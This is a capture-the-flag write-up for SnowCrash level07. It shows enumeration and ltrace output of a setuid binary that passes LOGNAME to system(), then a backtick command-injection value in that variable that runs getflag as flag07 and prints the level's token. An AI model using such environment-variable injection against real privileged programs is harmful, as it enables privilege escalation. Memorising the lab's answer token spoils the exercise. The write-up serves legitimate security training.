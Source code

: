 ## level07
I see a binary in the home folder, below are the enumeration results

```
level07@SnowCrash:~$ ls -lah
total 24K
dr-x------ 1 level07 level07  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level07 level07  220 Apr  3  2012 .bash_logout
-r-x------ 1 level07 level07 3.5K Aug 30  2015 .bashrc
-rwsr-sr-x 1 flag07  level07 8.6K Mar  5  2016 level07
-r-x------ 1 level07 level07  675 Apr  3  2012 .profile
level07@SnowCrash:~$ file level07
level07: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x26457afa9b557139fa4fd3039236d1bf541611d0, not stripped
level07@SnowCrash:~$
```

```
level07@SnowCrash:~$ ./level07
level07
level07@SnowCrash:~$ ltrace ./level07
__libc_start_main(0x8048514, 1, 0xbffff7f4, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                                                 = 2007
geteuid()                                                                 = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                       = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                       = 0
getenv("LOGNAME")                                                         = "level07"
asprintf(0xbffff744, 0x8048688, 0xbfffff4f, 0xb7e5ee55, 0xb7fed280)       = 18
system("/bin/echo level07 "level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                    = 0
+++ exited (status 0) +++
level07@SnowCrash:~$
```

I noticed that the program calls getenv on LOGNAME which returns `level07` before echoing out the value. In bash, there are a way to execute commands inside the resolution of environment variables by using the same mechanism from level04

```
level07@SnowCrash:~$ export TEST="`echo asdf`"
level07@SnowCrash:~$ echo $TEST
asdf
```

I tried doing the following but it looks like it didnt work

```
level07@SnowCrash:~$ export LOGNAME=`/bin/getflag`
level07@SnowCrash:~$ ./level07
Check flag.Here is your token :
sh: 2: Syntax error: ")" unexpected
```

I realized something, the program also prints the string into the terminal. If I set the variable to 
```
LOGNAME=`/bin/getflag`
```
before the execution, the program will execute on the action of setting of the variable; which will print out the wrong output. However, if I set the variable to 
```
LOGNAME='`/bin/getflag`'
```
The echo will print the literal with the backticks, which will get executed by the `system` syscall which spawns a child shell instead. Take a look at the example.

```
level07@SnowCrash:~$ export LOGNAME=`whoami`
level07@SnowCrash:~$ ./level07
level07
level07@SnowCrash:~$ export LOGNAME='`whoami`'
level07@SnowCrash:~$ ./level07
flag07
level07@SnowCrash:~$
```


With the above information, I am able to get the flag `fiumuikeil55xe9cu4dood66h`
```
level07@SnowCrash:~$ export LOGNAME='`getflag`' && ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
level07@SnowCrash:~$
```